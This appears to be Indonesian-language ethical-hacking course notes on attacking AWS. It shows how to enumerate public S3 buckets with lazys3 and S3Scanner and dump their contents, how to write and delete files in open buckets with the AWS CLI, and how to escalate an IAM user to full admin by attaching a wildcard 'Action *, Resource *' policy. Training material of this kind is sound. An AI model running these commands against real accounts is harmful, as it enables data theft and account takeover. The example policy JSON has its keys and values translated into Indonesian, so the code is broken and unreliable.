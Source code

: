 ## Cloud Computing

> Cloud computing menghadirkan berbagai jenis layanan dan aplikasi melalui Internet. Layanan-layanan ini memungkinkan pengguna untuk menggunakan perangkat lunak dan perangkat keras yang dikelola oleh pihak ketiga di lokasi jarak jauh. Beberapa penyedia layanan cloud yang terkenal adalah Google, Amazon, dan Microsoft.

Gambaran Umum tentang Cloud Computing:

- Cloud computing mengacu pada penyediaan kapabilitas TI sesuai permintaan, di mana infrastruktur TI dan aplikasi disediakan kepada pelanggan sebagai layanan berpengukuran melalui jaringan. Layanan cloud diklasifikasikan menjadi tiga kategori, yaitu infrastructure-as-a-service (IaaS), platform-as-a-service (PaaS), dan software-as-a-service (SaaS), yang menawarkan teknik yang berbeda untuk pengembangan cloud.

Mencantumkan Bucket S3 menggunakan lazys3:

- lazys3 adalah alat skrip Ruby yang digunakan untuk memindai bucket AWS S3 dengan menggunakan permutasi yang berbeda. Alat ini memperoleh bucket S3 yang dapat diakses secara publik dan juga memungkinkan Anda untuk mencari bucket S3 dari perusahaan tertentu dengan memasukkan nama perusahaan.
- ` ruby lazys3.rb [Nama Perusahaan] `

Mencantumkan Bucket S3 menggunakan S3Scanner:

- S3Scanner adalah alat yang menemukan bucket S3 terbuka dan membuang kontennya. Alat ini mengambil daftar nama bucket untuk diperiksa sebagai masukan. Bucket S3 yang ditemukan akan ditampilkan dalam sebuah file. Alat ini juga membuang atau menampilkan konten dari bucket "terbuka" secara lokal.
- ` python3 ./s3scanner.py sites.txt `
- Buang semua bucket terbuka dan catat baik bucket terbuka maupun tertutup di found.txt:
  - ` python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt `
- Hanya mencatat bucket terbuka dalam file keluaran default (buckets.txt):
  - ` python3 ./s3scanner.py names.txt `
- Simpan daftar file dari semua bucket terbuka ke dalam sebuah file:
  - ` python ./s3scanner.py --list names.txt `

Bucket S3 digunakan oleh pelanggan dan pengguna akhir untuk menyimpan dokumen teks, PDF, video, gambar, dll. Untuk menyimpan semua data ini, pengguna perlu membuat sebuah bucket dengan nama yang unik.

Berikut adalah beberapa teknik yang dapat diadopsi untuk mengidentifikasi Bucket AWS S3:

- Memeriksa HTML: Analisis kode sumber halaman web HTML di latar belakang untuk menemukan URL ke bucket S3 target
- Brute-Force URL: Gunakan Burp Suite untuk melakukan serangan brute-force pada URL bucket target untuk mengidentifikasi URL yang benar
- Menemukan subdomain: Gunakan alat seperti Findsubdomains dan Robtex untuk mengidentifikasi subdomain yang terkait dengan bucket target
- Pencarian IP Mundur: Gunakan mesin pencari seperti Bing untuk melakukan pencarian IP mundur untuk mengidentifikasi domain dari bucket S3 target
- Pencarian Google canggih: Gunakan operator pencarian Google canggih seperti "inurl" untuk mencari URL yang terkait dengan bucket S3 target

Memanfaatkan Bucket S3 Terbuka menggunakan AWS CLI:

- Antarmuka baris perintah AWS (CLI) adalah alat yang terpadu untuk mengelola layanan AWS. Dengan hanya satu alat yang perlu diunduh dan dikonfigurasi, Anda dapat mengendalikan beberapa layanan AWS dari baris perintah dan mengotomatiskannya melalui skrip.
- ` aws configure `
  - Ini akan meminta detail berikut:
    - AWS Access Key ID
    - AWS Secret Access Key
    - Nama wilayah default
    - Format keluaran default
- `aws s3 ls s3://[Nama Bucket]`
- ` aws s3 mv Hack.txt s3://certifiedhacker1 `
- `aws s3 rm s3://certifiedhacker1/Hack.txt`

Gambaran Umum tentang Eskalasi Hak Akses

- Hak akses adalah peran keamanan yang diberikan kepada pengguna untuk menggunakan program, fitur, sistem operasi, fungsi, file, kode, dll. untuk membatasi akses tergantung pada jenis pengguna. Eskalasi hak akses diperlukan ketika Anda ingin mengakses sumber daya sistem yang tidak diizinkan untuk diakses. Hal ini terjadi dalam dua bentuk: vertikal dan horizontal.
- Eskalasi Hak Akses Horizontal: Pengguna tidak sah mencoba mengakses sumber daya, fungsi, dan hak akses lain dari pengguna yang sah yang memiliki izin akses serupa
- Eskalasi Hak Akses Vertikal: Pengguna tidak sah mencoba mengakses sumber daya dan fungsi dari pengguna dengan hak akses yang lebih tinggi seperti administrator aplikasi atau situs

Meningkatkan Hak Akses Pengguna IAM dengan Memanfaatkan Kebijakan Pengguna yang Salah Konfigurasi:

- Kebijakan adalah entitas yang, ketika dilampirkan ke identitas atau sumber daya, menentukan izinnya. Anda dapat menggunakan AWS Management Console, AWS CLI, atau AWS API untuk membuat kebijakan yang dikelola pelanggan di IAM. Kebijakan yang dikelola pelanggan adalah kebijakan mandiri yang Anda kelola di akun AWS Anda. Anda kemudian dapat melampirkan kebijakan tersebut ke identitas (pengguna, grup, dan peran) di akun AWS Anda. Jika kebijakan pengguna tidak dikonfigurasi dengan benar, mereka dapat dimanfaatkan oleh penyerang untuk mendapatkan akses administrator penuh ke akun AWS pengguna target.

` aws iam create-policy --policy-name kebijakan-pengguna --policy-document file://kebijakan-pengguna.json `

- kebijakan-pengguna.json

```json
{

"Version":"2012-10-17",

"Pernyataan": [
{

    "Efek":"Memungkinkan",

    "Aksi":"*",

    "Sumber":"*"

}
]
}
```

- ` aws iam attach-user-policy --user-name [Nama Pengguna Target] --policy-arn arn:aws:iam::[ID Akun]:policy/kebijakan-pengguna `
- ` aws iam list-attached-user-policies --user-name [Nama Pengguna Target] `
- ` aws iam list-users `

- Daftar Bucket:

 S3: ` aws s3api list-buckets --query "Buckets[].Name" `

- Kebijakan Pengguna: ` aws iam list-user-policies `

- Kebijakan Peran: `aws iam list-role-policies`
- Kebijakan Grup: `aws iam list-group-policies`
- Buat pengguna: `aws iam create-user`
